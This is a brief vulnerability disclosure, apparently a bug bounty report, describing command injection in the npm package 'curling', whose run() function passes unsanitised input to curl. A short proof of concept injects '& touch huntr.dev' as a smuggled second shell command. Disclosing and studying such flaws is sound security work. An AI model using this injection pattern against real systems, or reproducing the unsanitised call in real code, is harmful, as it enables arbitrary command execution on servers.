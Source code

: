# Overview
`curling` is a node wrapper for curl with a very simple API, this package are vulnerable to Command Injection via. the `run(command,cb)` function. The command argument can be controlled by users without any sanitization.

# Proof of Concept
```
var root = require("curling");
root.run("& touch huntr.dev",function(){});
````